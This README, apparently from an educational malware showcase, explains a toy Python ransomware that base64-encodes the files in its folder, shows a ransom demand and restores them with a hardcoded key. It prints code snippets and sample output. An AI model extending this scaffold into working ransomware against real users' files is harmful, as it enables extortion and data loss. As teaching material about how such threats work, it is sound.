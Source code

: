 # Ransomware

Our **ransomware** is implemented in the file `ransomware.py`. It encrypts all files in the same directory and shows a ransom message, requesting a financial amount of 0.1 USD for the user to obtain the key. Once the user provides the correct key, it decrypts those files; otherwise, they would stay encrypted.

## Demonstration of Behavior

Before the execution of **ransomware**, observe `target_file.ext`. It is a simple file located in the same directory as our **ransomware**. To see the behavior of **ransomware**, simply execute it in this folder (`./ransomware`). You should see something like this:

DEBUG:root:Encrypting file: malware_showcase/ransomware/target_file.ext
Hi, all your files have been encrypted. Please send 0.1 USD to this address
to get a decryption key: XYZ.
Number of encrypted files: 1
Please enter a key:

  
 

Now do not type anything, just observe `target_file.ext` in the second terminal. You can see that its original content `Just an ordinary text file.` was encoded to `SnVzdCBhbiBvcmRpbmFyeSB0ZXh0IGZpbGUuCg==` (for more experienced users, it is obvious that it is a simple format of **base64**). However, this **ransomware** assumes that the user does not know the basics of cryptography. Now we have two options as the user. We might guess the key, in which case the program ends, and our files stay encrypted, or we "send a payment to the bank address XYZ" and obtain the correct key:

Please enter a key: __ransomware_key

  
 

This triggers decryption of data, and as we can observe, the content of our file is restored.

Creation of basic **ransomware** is a very simple process, as described below, and anyone can do it just with basics in programming and understanding of encryption. That's why we should always be cautious when we execute any uncommon or not trusted files.

## How does it work?

- Firstly, we create our **ransomware** and give it a name. <br>
  ```python
  ransomware = Ransomware('SimpleRansomware')
```
Then we must choose a folder with files we want to encrypt. We call the function encrypt_files_in_folder provided by our ransomware and pass the path to the folder as an argument. This function returns the number of encrypted files. <br>
python
 
number_encrypted_files = ransomware.encrypt_files_in_folder(path)
The first thing that needs to be done is a lookup for all filenames in the same directory (function get_files_in_folder(path)). This implementation ignores README files because the ransomware would encrypt this file as well if you run it.
Then we can simply encrypt each found file. The process of encryption is described below.
python
 
```for file in files:
   logging.debug('Encrypting file: {}'.format(file))
   self.encrypt_file(file)
```
The encryption part is the most important. There are many ways of how to encrypt the files. Usually, the encryption key would take a part in encryption as well (with a much stronger encryption algorithm), but for demonstration, we can use basic encoding base64. To learn more about base64, see the guide to base64. In this case, we load the data from the file, encrypt them to base64, and then write them back to the file.
python
 
# Load the content of the file.
```with open(filename, 'r') as file:
   content = file.read()
  ```
# Encrypt the file content with base64.
encrypted_data = base64.b64encode(content.encode('utf-8'))
# Rewrite the file with the encoded content.
```with open(filename, 'w') as file:
   file.write(encrypted_data.decode('utf-8'))
```
Once all files are encrypted, we can show our ransom message to the user, requesting money for the key.
The decryption part is very similar to encryption. However, in this case, we load the key and compare it with our default key __ransomware_key. If they are equal, we simply revert the previously done encryption. If the user enters a different key, the program ends, and the files stay encrypted.
python
 
# Obtain a key from the user.
```key = self.obtain_key()
if key != self.key:
   print('Wrong key!')
   return

files = self.get_files_in_folder(path)
```
# Decrypt each file in the directory.
```for file in files:
    self.decrypt_file(key, file)
 ``` 
 

This README provides insights into the functionality and behavior of the ransomware, along with details on how it operates and the precautions users should take.